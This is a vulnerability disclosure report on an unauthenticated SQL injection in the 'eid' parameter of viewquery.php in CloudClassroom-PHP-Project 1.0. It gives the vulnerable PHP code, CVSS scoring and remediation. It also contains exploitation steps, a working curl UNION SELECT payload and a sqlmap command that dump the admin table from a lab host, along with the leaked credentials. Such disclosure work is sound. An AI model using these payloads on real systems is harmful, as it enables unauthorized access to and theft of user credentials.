


# CloudClassroom-PHP-Project 1.0 — SQL Injection in viewquery.php (parameter eid)

| Field | Value |
|-------|-------|
| **Internal ID** | CC-2026-16 |
| **Product** | CloudClassroom-PHP-Project 1.0 |
| **Vendor** | Vishal Mathur (`mathurvishal`) |
| **File(s)** | `viewquery.php` |
| **Class** | SQL Injection (UNION-based / error-based) |
| **CWE** | CWE-89: SQL Injection |
| **OWASP** | A03:2021 – Injection |
| **Method / Parameter(s)** | GET (+POST on UPDATE) — `eid` |
| **Authentication** | None (via Broken Access Control — item 00; design would require student session) |
| **User Interaction** | None |
| **CVSS v3.1** | **9.1 (Critical)** — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N` |
| **EPSS** | N/A (no CVE) — low estimate (~0.03–0.09). |
| **Public Status** | Novel |

---

## 1. Executive Summary

Parameter `eid` is interpolated in quotes in SELECT query. Closing the quote allows `UNION SELECT`. Target table exposes 4 columns. Confirmed with unauthenticated admin credential dump.

## 2. Preconditions

None on target (item 00). With original session requirement, PR rises and score drops.

## 3. Code Analysis (Root Cause)

**`viewquery.php`**

```php
$x=$_GET['eid'];
$sql="select * from <table> WHERE <col>='".$x."'";
$rs=mysqli_query($connect,$sql);
```

## 4. Step-by-Step Exploitation

1. Request `viewquery.php` with `eid` containing UNION payload (no cookie — item 00).
2. Adjust column count to 4 (target table) and position data in displayed column.
3. Read admin credentials reflected in response.
4. Automate with sqlmap (`-p eid`) for full database dump.

## 5. Proof of Concept (PoC)

Executable and non-destructive script: **`poc.sh`** (usage: `bash poc.sh [http://target:port]`).

```bash
curl -s -G "http://192.168.95.131:9292/viewquery.php" \
  --data-urlencode "eid=' UNION SELECT concat(0x5b,Aid,0x3a,Apass,0x5d),2,3,4 FROM admin -- -" | grep -oE "\[[^]]*:[^]]*\]"\n\nsqlmap -u "http://192.168.95.131:9292/viewquery.php?eid=1" -p eid --batch --dump -T admin
```

**Evidence observed in lab (http://192.168.95.131:9292/):**

```
[admin@ics.com:admin]
[vishu:vishu]
```

### 5.1 Visual Evidence (live re-validation on 2026-08-02)

Attack reproduced live against http://192.168.95.131:9292/ in a non-destructive manner (reads/error-based, and state injections with automatic value restoration).

**a) Execution in browser** — real server response rendered in Chromium, with evidence band (request + payload + verdict):



**b) Vulnerable code line** — source code snippet with sink highlighted (`viewquery.php`):



## 6. Impact

Arbitrary database read (C:H) — PII, plaintext passwords, admin credentials; write via UPDATE/POST sink (I:H); total chain compromise.

## 7. Severity Assessment (CVSS v3.1)

Vector: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N` — **Base 9.1 (Critical)**

| Metric | Value |
|---|---|
| Attack Vector (AV) | Network (N) |
| Attack Complexity (AC) | Low (L) |
| Privileges Required (PR) | None (N) |
| User Interaction (UI) | None (N) |
| Scope (S) | Unchanged (U) |
| Confidentiality (C) | High (H) |
| Integrity (I) | High (H) |
| Availability (A) | None (N) |

**EPSS:** N/A (no CVE) — low estimate (~0.03–0.09).

## 8. Remediation

- Use prepared statements with parameter binding (`mysqli`/PDO) in 100% of queries.
- Enforce type casting for numeric identifiers (`(int)$id`) and use allowlist where applicable.
- Do not echo `$sql`/`mysqli_error()` to client (remove error oracle).
- Apply `exit;` after session guard (see item 00).

## 9. Novelty / Duplication Check

No public CVE for this file/parameter in Vishal Mathur product nor in the twin 'CodeAstro Online Classroom' codebase. Verified in NVD/cvefeed on 2026-08-02.

## 10. References

- https://cwe.mitre.org/
- https://www.first.org/cvss/calculator/3.1
- https://cvefeed.io/vuln/product/161371/vishalmathurcloudclassroom-php_project/

## 11. Timeline

- 2026-08-02 — Discovery (static analysis) and dynamic lab confirmation.
- 2026-08-02 — Disclosure package preparation (this report).

---
*Report generated from `_lib/findings_data.py` (single source of truth). Researcher: oliveira.luanalmeida@gmail.com.*
